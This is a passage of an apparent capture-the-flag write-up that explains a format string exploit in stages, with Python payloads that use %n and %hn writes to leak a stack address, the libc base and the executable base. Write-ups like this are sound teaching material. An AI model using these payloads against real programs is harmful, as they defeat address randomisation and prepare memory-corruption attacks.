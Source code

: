 ```python
payload = f'%{(stack_leak & 0xff00) - 5}c%9$hn'.encode()
payload = payload.ljust(0x17, b'B')
p.sendline(payload)
```

So the fully script for leaking stack would be:

```python
payload = f'%{(stack_leak & 0xff00) - 5}c%9$hn'.encode()
payload = payload.ljust(0x17, b'B')
p.sendline(payload)

payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%10$'
p.sendline(payload)

p.recvuntil(b'0x')
stack_leak = int(p.recv(12), 16)
log.info("Stace leak: " + hex(stack_leak))
```

So the first `p.sendline(payload)` will change the second stack to point to the `\n` when we input the second payload. And in second payload, we will `%n` the second stack address to change from `\n` into `p` and we will have `%10$p` to be executed at the same time after `%n` was executed. 

### Stage 2: Leak libc

For leaking libc, the script is the same with script above with a different `%p` to point to the `__libc_start_main_ret`:

```python
payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%19$'            # Change here
p.sendline(payload)

p.recvuntil(b'0x')
libc_leak = int(p.recv(12), 16)
libc.address = libc_leak - 0x24083
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base" + hex(libc.address))
```

### Stage 3: Leak exe

For this stage, it is absolutely the same as 2 stage above:

```python
payload = b'%c'*8
payload += f'%{ord("p") - 8}c%n'.encode()
payload += b'%11$'            # Change here
p.sendline(payload)

p.recvuntil(b'0x')
exe_leak = int(p.recv(12), 16)
log.info("Exe leak: " + hex(exe_leak))
exe.address = exe_leak - 0x13ad
log.info("Exe base: " + hex(exe.address))
```

